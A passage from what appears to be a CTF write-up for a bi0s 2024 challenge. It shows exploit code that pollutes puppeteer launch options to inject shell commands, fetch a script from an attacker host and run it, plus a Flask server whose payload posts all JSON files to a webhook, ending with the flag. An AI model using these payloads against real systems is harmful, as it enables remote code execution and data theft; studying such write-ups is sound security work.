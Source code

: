 ```python
    assert res.status_code == 500

# PP gadgets in puppeteer:
# - https://github.com/puppeteer/puppeteer/blob/puppeteer-v21.5.2/packages/browsers/src/launch.ts#L199-L207
# - https://github.com/puppeteer/puppeteer/blob/puppeteer-v21.5.2/packages/puppeteer-core/src/node/ChromeLauncher.ts#L76-L83

pp("shell", '"/bin/sh"')
pp("userDataDir", '"/app/notes"')   
pp("executablePath", '"echo"')
pp("ignoreDefaultArgs", "true")

pp("debuggingPort", '";cd\\tnotes;a="')
pp("debuggingPort", f'";wget\\t{ATTACKER_HOST}/x;a="')
pp("debuggingPort", '";/bin/sh\\tx;"')

# You need to serve the following shell script at `http://{ATTACKER_HOST}/x`:
# ```
# wget https://webhook.site/xxxxx --post-data="$(cat *.json)"
# ```

res = client.get("/healthcheck")
assert res.json()["Message"] == "healthcheck failed"
```

### WebServer
    
```python
from flask import Flask
app = Flask(__name__)

@app.route('/')
def hello_world():
    return 'hello world!'

@app.route('/x')
def x():
    return 'wget https://webhook.site/49bf9d14-dc50-4582-a5f7-d35ad68edc26 --post-data="$(cat *.json)"'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```     
          
<img src="/assets/images/ctf/2024/bi0s/required-notes-revenge/flag.jpg" width=700px>       
              
### Flag      
bi0sctf{riDPzbM5H7l3JAex+mw2vA==}




  